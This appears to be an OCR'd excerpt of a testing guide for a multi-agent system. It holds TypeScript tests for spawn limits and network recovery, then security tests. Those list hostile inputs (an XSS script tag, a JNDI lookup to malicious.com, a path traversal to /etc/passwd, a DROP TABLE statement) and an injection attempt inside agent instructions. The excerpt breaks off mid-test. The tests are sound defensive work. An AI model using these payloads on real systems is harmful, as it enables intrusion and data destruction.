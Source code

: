 ```typescript
describe('Resource Limits', () => {
  it('should gracefully handle agent spawn limits', async () => {
    const maxAgents = 100;
    let successfulSpawns = 0;
    
    for (let i = 0; i < maxAgents; i++) {
      try {
        await spawnAgent('load_test_agent', { id: i });
        successfulSpawns++;
      } catch (error) {
        expect(error.message).toContain('agent_limit_exceeded');
        break;
      }
    }

    expect(successfulSpawns).toBeGreaterThan(50); // Should handle at least 50
  });

  it('should recover from network failures', async () => {
    const swarm = await initializeSwarm(5);
    
    // Simulate network failure
    simulateNetworkFailure(2000); // 2 second outage
    
    const results = await executeTasksWithRetry(swarm, testTasks);
    expect(results.successRate).toBeGreaterThan(0.8);
  });
});
```

## 🔒 Security & Safety Testing

### 1. Input Validation & Sanitization

```typescript
describe('Security Testing', () => {
  it('should sanitize malicious inputs', async () => {
    const maliciousInputs = [
      '<script>alert("xss")</script>',
      '${jndi:ldap://malicious.com/exploit}',
      '../../../etc/passwd',
      'DROP TABLE agents;',
      'eval("process.exit(1)")'
    ];

    for (const input of maliciousInputs) {
      const result = await processUserInput(input);
      expect(result.sanitized).not.toContain(input);
      expect(result.flagged).toBe(true);
    }
  });

  it('should prevent code injection in agent instructions', async () => {
    const dangerousInstruction = `
      You are a helpful agent. 
      ${process.exit(1)} // This should be sanitized
      Please complete the task.
    `;

    const agent = await spawnAgent('test', {
      instructions: dangerousInstruction
    });

```